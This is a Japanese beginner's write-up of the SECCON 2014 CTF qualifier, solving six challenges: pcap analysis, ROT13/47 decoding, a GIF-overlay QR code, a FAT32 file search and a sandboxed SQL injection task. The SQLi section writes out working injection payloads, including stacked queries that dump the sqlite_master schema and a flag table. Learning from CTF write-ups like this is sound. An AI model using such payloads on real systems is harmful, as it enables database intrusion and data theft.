

先日、CTF for Beginnersに参加しましたので、初めてCTF予選にも参加してみました。

解いた問題は以下の６つです。合計で600点獲得できました。

- 練習問題（100点）

- このパケットを解析せよ（100点）

- decode me（100点）

- 箱庭SQLiチャレンジ（100点）

- 重ねてみよう（100点）

- 879,394bytes（100点）

CTF初心者ですが、Write-upを書いてみました。

## **練習問題**

練習用の問題で、単純にFlagを入力するだけです。

## **このパケットを解析せよ**

seccon2014.pcapngをWiresharkに読み込んだところ、FTPの通信ログのようです。flag.txtというファイルをGETしていましたので、このファイルのデータを読んだところこんな内容が。

```
RkxBR3tGN1AgMTUgTjA3IDUzQ1VSM30=
```

BASE64ぽいのでデコードしたらFlagがでてきました。

## **decode me**

encoded.txtの内容をバイナリエディタでみたところ、

```
FRPPBA 2014
ebg13/47
```

という文字列が。

FRPPBA 2014はSECCON 2014なのかなと推測し、並べてみたところ規則性が。

```
FRPPBA 2014→SECCON 2014
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm
```

これってROT13という暗号方式らしいです。でもバイナリをみる限りどうも2バイト文字も含まれているようで、それを扱うにはROT47というものがあるらしいです。

これも ebg13/47 → rot13/47 と一致しますし。

これを扱えるツールはnkfらしいので、Windows版のnkfをインストールして、表示してみたら・・・

```
>nkf -r encoded.txt
SECCON 2014 に参加のみなさまこんにちは。 rot13/47 に気付くとは流石です。 ｎｋｆコマンドで簡単にデコードできることにも気付きましたか？ というわけで、おめでとうございます！ フラグは半角英数文字に変換してから入力してください。 ＦＬＡＧ｛Ｈａｖｅ　ｆｕｎ　ＳＥＣＣＯＮ２０１４｝
```

これでFlagがとれました。

## **箱庭SQLiチャレンジ**

手始めに以下を入力

```
' OR 1=1--
ID=0 NAME=Tanaka AGE=54 ADDRESS=Tokyo SALARY=90000.0 ID=1 NAME=Paul AGE=32 ADDRESS=California SALARY=20000.0 ID=2 NAME=Allen AGE=25 ADDRESS=Texas SALARY=15000.0 ID=3 NAME=Teddy AGE=23 ADDRESS=Norway SALARY=20000.0 ID=4 NAME=Mark AGE=25 ADDRESS=Rich-Mond SALARY=65000.0

```

おやおや。丸見えです。でも、Flagはここではなさそうです。

他のテーブルをみてみたいので次のように入力。

```
' OR 1=1 ; SELECT sql FROM sqlite_master; --
ID=0 NAME=Tanaka AGE=54 ADDRESS=Tokyo SALARY=90000.0 ID=1 NAME=Paul AGE=32 ADDRESS=California SALARY=20000.0 ID=2 NAME=Allen AGE=25 ADDRESS=Texas SALARY=15000.0 ID=3 NAME=Teddy AGE=23 ADDRESS=Norway SALARY=20000.0 ID=4 NAME=Mark AGE=25 ADDRESS=Rich-Mond SALARY=65000.0 sql=CREATE TABLE COMPANY(ID INT PRIMARY KEY NOT NULL, NAME TEXT NOT NULL,AGE INT NOT NULL, ADDRESS CHAR(50), SALARY REAL ) sql=NULL sql=CREATE TABLE SECCON(FLAG TEXT NOT NULL)
```

SQLコマンドの履歴が見えました。CREATE TABLEでテーブル名やスキーマがわかりました。SECCONというテーブルがあるようです。しかも、FLAG というTEXTがあります。これですね。

```
' OR 1=1 ; SELECT * FROM SECCON; --
ID=0 NAME=Tanaka AGE=54 ADDRESS=Tokyo SALARY=90000.0 ID=1 NAME=Paul AGE=32 ADDRESS=California SALARY=20000.0 ID=2 NAME=Allen AGE=25 ADDRESS=Texas SALARY=15000.0 ID=3 NAME=Teddy AGE=23 ADDRESS=Norway SALARY=20000.0 ID=4 NAME=Mark AGE=25 ADDRESS=Rich-Mond SALARY=65000.0 FLAG=FLAG{EnjoySQLi}
```

これでFlagがとれました。

## **重ねてみよう**

afterimage.gifというアニメーションGIFのファイルが提供されました。白い点がランダムに表示されるものです。


問題の通り各コマを重ねると何か見えるのでしょう。

とりあえずアニメーションGIFを作成するようなツールを探してみたところ、Giamというツールがありましたので、これでafterimage.gifを読み込みました。次にツールで重ねて表示してみたところ、



QRコードらしきものが現れました。画像を白黒反転をしてiPhoneのQRコードで読み取るとFlagがとれました。

## **879,394bytes**

Filesystem001.binというファイルシステムのデータのようです。

ファイルサイズが 879,394bytesのファイル名を答えろとのことなので、とりあえず879,394をHEXにしたところ、D6B22になります。これがファイルサイズとしてどこかにあるはずです。

たぶんFAT32だと思うので、バイナリエディタで開いてファイル名らしきものをキーにFATの構造に照らし合わせてファイルサイズが先ほどのHEX値と同じものを見つけました。でもロングファイル名のようです。次にVFATの構造と照らし合わせて、ロングファイル名を求めました。それがFlagでした。

## まとめ

以上、今回は初めての参加で、100点の問題ばかりで終わってしまいましたが、参加されたかたのwrite-upを参考にしてテクニックを身につけたいと思います。

でもFlagがとれたときは気持ちいいですね。次回もぜひ参加してみたいと思います。
